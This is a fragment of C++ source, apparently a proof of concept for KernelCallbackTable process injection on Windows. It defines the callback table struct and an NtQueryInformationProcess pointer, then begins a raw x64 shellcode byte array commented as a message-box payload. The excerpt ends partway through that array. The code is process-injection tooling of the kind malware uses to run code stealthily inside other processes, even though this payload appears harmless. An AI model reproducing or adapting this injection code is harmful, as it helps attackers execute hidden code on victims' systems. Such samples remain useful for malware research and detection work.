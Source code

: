 ```cpp
  ULONG_PTR __ClientWOWGetProcModule;
  ULONG_PTR __ClientWOWTask16SchedNotify;
  ULONG_PTR __ClientImmLoadLayout;
  ULONG_PTR __ClientImmProcessKey;
  ULONG_PTR __fnIMECONTROL;
  ULONG_PTR __fnINWPARAMDBCSCHAR;
  ULONG_PTR __fnGETTEXTLENGTHS2;
  ULONG_PTR __fnINLPKDRAWSWITCHWND;
  ULONG_PTR __ClientLoadStringW;
  ULONG_PTR __ClientLoadOLE;
  ULONG_PTR __ClientRegisterDragDrop;
  ULONG_PTR __ClientRevokeDragDrop;
  ULONG_PTR __fnINOUTMENUGETOBJECT;
  ULONG_PTR __ClientPrinterThunk;
  ULONG_PTR __fnOUTLPCOMBOBOXINFO2;
  ULONG_PTR __fnOUTLPSCROLLBARINFO;
  ULONG_PTR __fnINLPUAHDRAWMENU2;
  ULONG_PTR __fnINLPUAHDRAWMENUITEM;
  ULONG_PTR __fnINLPUAHDRAWMENU3;
  ULONG_PTR __fnINOUTLPUAHMEASUREMENUITEM;
  ULONG_PTR __fnINLPUAHDRAWMENU4;
  ULONG_PTR __fnOUTLPTITLEBARINFOEX;
  ULONG_PTR __fnTOUCH;
  ULONG_PTR __fnGESTURE;
  ULONG_PTR __fnPOPTINLPUINT4;
  ULONG_PTR __fnPOPTINLPUINT5;
  ULONG_PTR __xxxClientCallDefaultInputHandler;
  ULONG_PTR __fnEMPTY;
  ULONG_PTR __ClientRimDevCallback;
  ULONG_PTR __xxxClientCallMinTouchHitTestingCallback;
  ULONG_PTR __ClientCallLocalMouseHooks;
  ULONG_PTR __xxxClientBroadcastThemeChange;
  ULONG_PTR __xxxClientCallDevCallbackSimple;
  ULONG_PTR __xxxClientAllocWindowClassExtraBytes;
  ULONG_PTR __xxxClientFreeWindowClassExtraBytes;
  ULONG_PTR __fnGETWINDOWDATA;
  ULONG_PTR __fnINOUTSTYLECHANGE2;
  ULONG_PTR __fnHkINLPMOUSEHOOKSTRUCTEX2;
} KERNELCALLBACKTABLE;

// NtQueryInformationProcess
typedef NTSTATUS(NTAPI* pNtQueryInformationProcess)(
  IN HANDLE ProcessHandle,
  IN PROCESSINFOCLASS ProcessInformationClass,
  OUT PVOID ProcessInformation,
  IN ULONG ProcessInformationLength,
  OUT PULONG ReturnLength OPTIONAL
);

unsigned char my_payload[] =

  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
```